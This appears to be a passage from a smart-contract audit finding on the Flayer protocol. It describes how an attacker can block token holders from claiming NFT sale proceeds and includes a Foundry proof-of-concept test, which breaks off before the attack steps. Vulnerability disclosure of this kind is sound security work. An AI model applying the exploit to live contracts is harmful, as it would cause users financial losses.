 ### Impact

The attack allows a malicious actor to prevent legitimate token holders from claiming their eligible NFT sale proceeds from SudoSwap. This could lead to significant financial losses for affected users.

### PoC

#### Setup
* Update the [`CollectionShutdown.t::constructor()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/test/utils/CollectionShutdown.t.sol#L35) to mint CTs token with denominator more that 0
```diff
File: CollectionShutdown.t.sol
29:     constructor () forkBlock(19_425_694) {
30:         // Deploy our platform contracts
31:         _deployPlatform();
---
-35:         locker.createCollection(address(erc721b), 'Test Collection', 'TEST', 0);
+35:         locker.createCollection(address(erc721b), 'Test Collection', 'TEST', 4);
36: 
```
* Put the snippet below into the protocol test suite: `flayer/test/utils/CollectionShutdown.t.sol` 
* Run test: 
```bash
forge test --mt test_CanBlockEligibleUsersToClaim -vvv
```

#### Coded PoC
<details>
  <summary>Show Coded PoC</summary>

```solidity
        function test_CanBlockEligibleUsersToClaim() public {
        address Lewis = makeAddr("Lewis");
        address Max = makeAddr("Max");
        address MaxRecovery = makeAddr("MaxRecovery");

        // -- Before Attack --
        
        // Mint some tokens to our test users -> totalSupply: 4 ethers (can shutdown)
        vm.startPrank(address(locker));
        collectionToken.mint(Lewis, 2 ether * 10 ** collectionToken.denomination());
        collectionToken.mint(Max, 2 ether * 10 ** collectionToken.denomination());
        vm.stopPrank();

        // Start shutdown with their vore that has passed the threshold quorum
        vm.startPrank(Lewis);
        uint256 lewisVoteBalance = 2 ether * 10 ** collectionToken.denomination();
        collectionToken.approve(address(collectionShutdown), type(uint256).max);
        collectionShutdown.start(address(erc721b));
        assertEq(collectionShutdown.shutdownVoters(address(erc721b), address(Lewis)), lewisVoteBalance);
        vm.stopPrank();

        // Confirm that we can now execute
        assertCanExecute(address(erc721b), true);

        // Mint NFTs into our collection {Locker} and process the execution
        uint[] memory tokenIds = _mintTokensIntoCollection(erc721b, 3);
        collectionShutdown.execute(address(erc721b), tokenIds);

        // Confirm that the {CollectionToken} has been sunset from our {Locker}
        assertEq(address(locker.collectionToken(address(erc721b))), address(0));

```